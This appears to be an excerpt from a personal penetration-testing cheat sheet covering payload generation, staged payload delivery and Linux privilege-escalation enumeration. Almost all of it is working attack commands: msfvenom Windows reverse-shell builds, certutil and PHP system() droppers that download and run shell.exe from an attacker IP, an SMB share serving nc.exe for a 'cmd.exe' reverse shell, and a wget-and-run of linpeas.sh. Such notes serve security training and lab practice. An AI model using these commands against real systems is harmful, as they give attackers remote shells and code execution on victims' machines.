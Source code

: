 ```jsx
//32 bit
msfvenom -p windows/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.3 LPORT=443
//64 bit
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.3 LPORT=443
//download + execute (2 stage)
certutil -urlcache -split -f http://192.168.45.3/shell.exe C:/Windows/Temp/shell.exe
C:/Windows/Temp/shell.exe
```

PHP custom two stager - Windows

```jsx
<?php
$download = system('certutil.exe -urlcache -split -f http://192.168.45.210/shell.exe shell.exe', $val)
?>
```

```jsx
<?php
$exec = system('shell.exe', $val)
?>
```

### SMB Sharing+ CMD reverse shell (use when other payloads don’t work)

```jsx
python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support Share ~/Desktop/scripts/shells
```

example of usage:

```jsx
cmd /c //192.168.45.213/Share/nc.exe -e cmd.exe 192.168.45.213 4444
```

Refer to here next: [Got shitty cmd shell?](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f.md) 

# Privilege escalation

## Linux

<aside>
💡 Please get some TTY 🙂 [TTY Linux](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f.md)

</aside>

### Enumeration

```jsx
wget http://192.168.49.136/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```
